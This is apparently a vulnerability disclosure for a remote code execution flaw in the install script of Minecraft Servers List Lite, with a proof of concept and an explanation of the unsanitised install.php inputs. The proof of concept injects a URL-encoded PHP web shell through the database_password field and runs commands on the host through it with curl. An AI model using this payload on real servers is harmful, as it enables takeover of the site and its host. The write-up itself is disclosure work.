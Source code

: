 ## Proof of Concept
### Upload of Shell:
```http
POST /install.php HTTP/1.1
Host: 10.2.0.4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.2.0.4/install.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Cookie: PHPSESSID=nl614639vqc8khlf4qkbbb2ul2
Connection: close
Upgrade-Insecure-Requests: 1

database_server=10.2.0.10&database_user=shell&database_password=%22%3B%3F%3E%3C%3F%3D%60%24_GET%5B1%5D%60%3F%3E%3C%3Fphp+%2F%2F&database_name=minecraft&settings_url=http%3A%2F%2F10.2.0.4%2F&settings_title=rastating&submit=
```

### Usage of Shell:
```bash
curl "http://10.2.0.4/core/database/connect.php?1=whoami"
```

## Technical Overview
As of January 16th, 2018, all versions of the Minecraft Servers List Lite software, and the premium product it is derived from, are vulnerable to a remote code execution flaw, stemming from a lack of input sanitisation within the install procedure.

Although users are advised after a successful install to remove the `install.php` file, if they do not, they are left open to compromise of not just the web application, but potentially the entire host.

### The Problematic Code
The starting point of the process that creates this vulnerability is on lines 23-26 of `install.php`:

```php
$database_server    = $_POST['database_server'];
$database_user	    = $_POST['database_user'];
$database_password  = $_POST['database_password'];
$database_name	    = $_POST['database_name'];
```

At this point in the script, the values are not sanitised; and rightly so. Directly after the initialisation of these variables, on line 28, a connection to the MySQL server is attempted, and thus they must remain completely unmodified:

```php
$database = new mysqli($database_server, $database_user, $database_password, $database_name);
```
